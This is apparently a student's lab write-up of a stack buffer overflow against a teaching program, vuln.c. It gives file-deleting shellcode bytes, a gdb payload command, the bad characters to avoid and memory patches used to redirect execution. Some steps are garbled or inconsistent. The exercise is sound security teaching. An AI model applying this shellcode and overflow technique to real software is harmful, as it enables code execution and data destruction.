



Name: Dinh Thi Thanh Vy
ID: 22110093

# Lab 2: 
## Task 1: Inject code to delete file
---
Source code asm

Run virtual environment by docker file

Run file asm and get the shellcode

We have the shellcode for this program as follows:
\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00
We remove \xdummyfile because it is not meaningful hexadecimal code

**Stack Frame:**

shell code: 36 bytes
Return address: 4 bytes
--> placement code: 32 bytes
Here, we will use the vuln.c program to trigger a buffer overflow

Connect to gdb

>b *0x0804846b

Run vuln.c
>r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")

We observe that the first 3 bytes still correspond to the shellcode, but starting from the 4th byte, which corresponds to the newline character 0x0a, the `strcpy` function terminates the string, causing the interruption.  

Observing the ASCII table, we need to avoid the following characters: 
- 0x00 because it marks the end of a string. 
- 0x09 because it's the tab character and would split the argument. 
- 0x0a because it's the newline character and would also terminate the string.

Additionally, 0x0a has a decimal value of 10, and upon reviewing the assembly code, we find:

change file asm:

Get shellcode again
>\xeb\x14\x31\xc0\xb0\x08\x04\x02\xbb\x7b\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe7\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\

For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to 
prevent string termination and to identify the position of the return frame.

>r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\xff\xff\xff\xff')")

At this point, the program will likely report an error because it cannot find the address 0xffffffff. 

We need to set 0x0c to 0x00 at the address 0xffffd66b by using command: 
>set {unsigned char} 0xffffd66b = 0x00

we will replace the values of 0xffffffff with the address of the buffer, which is ffffd658, in the form of \x58\xd6\xff\xff. 
>set *0xffffd69c = 0xffffd658

The command will be: 

Continue runing the program to test out

Dummyfile is still here. Look at the assembly code!
>objdump -d file_del

As we can see, the dummyfile is start from 0xffffd672 not from 0x080407a in C program!
We need to set 0xffffd651 to point at that using command: set *0xffffd661 = 0xffffd672

ets/83b8577a-e3d5-44fa-aabe-0d191f149020)
contnue running the program 

-->dummyfile is deleted

## Task 2: Conduct attack on ctf.c

